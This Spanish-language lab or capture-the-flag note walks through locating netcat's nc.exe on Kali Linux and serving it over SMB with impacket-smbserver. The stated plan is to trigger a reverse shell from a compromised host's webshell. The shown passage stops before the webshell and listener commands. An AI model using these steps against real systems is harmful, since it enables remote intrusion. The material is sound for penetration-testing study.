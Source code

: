   

- Vamos a hacer una búsqueda de nuevo en el Kali. Ya que también por defecto tenemos almacenado un ejecutable **.exe** de **netcat** almacenado.
    
    ```Bash
    find / -name nc.exe 2>/dev/null
    ```
    
    ![[Imagenes/image 14 13.png|image 14 13.png]]
    
      
    
- Lo copiamos al escritorio .
    
    ```Bash
    cp /usr/share/windows-resources/binaries/nc.exe .
    ```
    
    ![[Imagenes/image 15 12.png|image 15 12.png]]
    

  

**La idea** es desde el Kali Linux levantarnos un recurso compartido en la red alojando el nc.exe y luego desde el **Webshell** ejecutar un comando apuntado al recurso compartido y al nc.exe para mandarme una revershell a mi maquina atacante.

> [!important]
> 
> ### Pasos:
> 
> 1. **Preparar el recurso compartido en la red en Kali Linux**
> 2. **Verificar acceso al recurso compartido**
> 3. **Ejecutar comandos desde el Webshell**
> 4. **Escuchar en tu máquina atacante**
> 5. **Recibir la conexión**

  

- Vamos a usar una serie de herramientas llamadas **Impacket** para levantar un recurso compartido en el escritorio**.** 
    
    ```Bash
    impacket-smbserver recurso $(pwd) -smb2support
    ```
    
    ![[Imagenes/image 16 9.png|image 16 9.png]]
    
      
    
    > [!important] `**impacket-smbserver**`:
    > 
    > - Es una herramienta de **Impacket** que permite crear un servidor SMB (Server Message Block) en Kali Linux. Esta utilidad te permite compartir directorios locales de tu máquina en la red mediante el protocolo SMB.
    > 
    > `**recurso**`:
    > 
    > - Este es el **nombre del recurso compartido** que aparecerá en la red. Por ejemplo, si decides llamar al recurso "compartido", será accesible como `\\IP_del_Kali\compartido`.
    > 
    > `**$(pwd)**`:
    > 
    > - Es un comando de **Bash** que devuelve el **directorio de trabajo actual** (el lugar donde te encuentras en la terminal). En este caso, la carpeta desde donde ejecutas el comando será la carpeta que se compartirá a través de SMB.
    > 
    > `**smb2support**`:
    > 
    > - Esta bandera activa el soporte para el protocolo **SMBv2**. Es útil ya que muchos sistemas modernos deshabilitan SMBv1 por razones de seguridad.